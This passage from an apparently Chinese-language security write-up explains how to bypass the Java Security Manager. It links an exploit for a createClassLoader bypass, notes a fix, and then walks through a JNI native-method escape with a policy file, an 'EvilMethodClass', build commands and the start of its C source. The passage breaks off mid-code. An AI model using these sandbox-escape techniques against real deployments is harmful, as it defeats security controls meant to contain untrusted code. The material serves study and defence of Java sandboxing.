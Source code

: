 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://i.loli.net/2018/07/10/5b449c0760de3.png)

exp地址：[https://github.com/c0d3p1ut0s/java-security-manager-bypass/tree/master/bypass-by-createclassloader](https://github.com/c0d3p1ut0s/java-security-manager-bypass/tree/master/bypass-by-createclassloader)

修复方法：禁止createClassLoader

### <a class="reference-link" name="%E6%9C%AC%E5%9C%B0%E6%96%B9%E6%B3%95%E8%B0%83%E7%94%A8%E7%BB%95%E8%BF%87Java%20Security%20Manager"></a>本地方法调用绕过Java Security Manager

Java Security Manager是在java核心库中的一个功能，而java中native方法是由jvm执行的，不受java security manager管控。因此，我们可以调用java native方法，绕过java security manager。

java.policy

```
grant`{`
permission java.lang.RuntimePermission "loadLibrary.*";
permission java.io.FilePermission "/root/-", "read";
`}`;
```

声明一个native方法：

```
package com.evil;

public class EvilMethodClass `{`
    //加载动态链接库
    static `{`
        System.load("/root/libEvilMethodClass.so");
    `}`
    //声明一个native方法
    public static native String evilMethod(String name);
`}`
```

生成.h头

```
javac src/com/evil/EvilMethodClass.java -d ./bin
javah -jni -classpath ./bin -d ./jni com.evil.EvilMethodClass
javah -jni -classpath ./bin -o EvilMethodClass.h com.evil.EvilMethodClass
```

新建EvilMethodClass.c

```
#include "com_evil_EvilMethodClass.h"
#include&lt;stdlib.h&gt;

#ifdef __cplusplus
extern "C"
`{`
#endif


JNIEXPORT jstring JNICALL Java_com_evil_EvilMethodClass_evilMethod(
        JNIEnv *env, jclass cls, jstring j_str)
`{`
    const char *c_str = NULL;
    char buff[128] = `{` 0 `}`;
    c_str = (*env)-&gt;GetStringUTFChars(env, j_str, NULL);
    if (c_str == NULL)
    `{`
        printf("out of memory.n");
```